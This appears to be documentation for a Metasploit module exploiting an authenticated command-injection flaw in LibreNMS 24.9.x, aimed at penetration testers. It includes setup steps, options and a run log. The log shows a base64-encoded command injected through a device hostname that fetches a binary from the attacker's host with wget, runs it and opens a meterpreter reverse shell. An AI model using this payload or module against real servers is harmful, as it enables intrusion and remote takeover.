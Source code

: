 ## Vulnerable Application

An authenticated attacker can create dangerous directory names on the system and
alter sensitive configuration parameters through the web portal.
Those two defects combined then allows to inject arbitrary OS commands inside shell_exec() calls,
thus achieving arbitrary code execution.

The vulnerability affects:

    * 24.9.0 <= LibreNMS <= 24.9.1

This module was successfully tested on:

    * LibreNMS 24.9.0 installed on Ubuntu 22.04
    * LibreNMS 24.9.1 installed on Ubuntu 22.04


### Installation

1. Follow the [official instructions](https://docs.librenms.org/Installation/Install-LibreNMS/).
After git clone, change version: `git checkout tags/24.9.1`.

2. Comment out the last line in `/etc/cron.d/librenms`:
`19 0 * * * librenms /opt/librenms/daily.sh >> /dev/null 2>&1`.
Otherwise, the version will be updated to the latest, causing the exploit to fail.


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/librenms_authenticated_rce_cve_2024_51092`
4. Do: `run lhost=<lhost> rhost=<rhost> username=<username> password=<password>`
5. (Optional) Do: `php artisan device:poll all` on the victim machine or wait up to 5 minutes (default cron setting)
6. You should get a meterpreter


## Options
### USERNAME (required)
User name for LibreNMS.

### PASSWORD (required)
Password for LibreNMS.

### PATH (required)
LibreNMS installed location. Default is `/opt/librenms`.

### WAIT (required)
Wait time (seconds) for cron to poll the device. Default is `315`.


## Scenarios
```
msf6 > use exploit/linux/http/librenms_authenticated_rce_cve_2024_51092
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/librenms_authenticated_rce_cve_2024_51092) > options

Module options (exploit/linux/http/librenms_authenticated_rce_cve_2024_51092):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Password for LibreNMS
   PATH      /opt/librenms    yes       LibreNMS installed location
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     80               yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME                   yes       User name for LibreNMS
   VHOST                      no        HTTP server virtual host
   WAIT      315              yes       Wait time (seconds) for cron to poll the device


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      n                no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH       s                no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.0.12     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/librenms_authenticated_rce_cve_2024_51092) > run lhost=192.168.56.1 rhost=192.168.56.17 username=librenms password=librenms
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Successfully logged into LibreNMS.
[+] The target appears to be vulnerable. LibreNMS version 24.9.1 detected, which is vulnerable.
[*] Try to add host: 'f;echo d2dldCAtcU8gLi9uIGh0dHA6Ly8xOTIuMTY4LjU2LjE6ODA4MC9zO2NobW9kICt4IC4vbjsuL24m|base64 -d|bash;#', length: 100
[*] Added host.
[*] Actual payload: wget -qO ./n http://192.168.56.1:8080/s;chmod +x ./n;./n&
[*] Waiting up to 315 seconds for cron to poll the device...
[*] Sending stage (3045380 bytes) to 192.168.56.17
[+] Deleted n
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.17:40228) at 2025-01-17 21:19:20 +0900
[*] Reset snmpget to default.
[*] Deleted device: 353

meterpreter > getuid
Server username: librenms
meterpreter > sysinfo
Computer     : 192.168.56.17
OS           : Ubuntu 22.04 (Linux 6.8.0-50-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
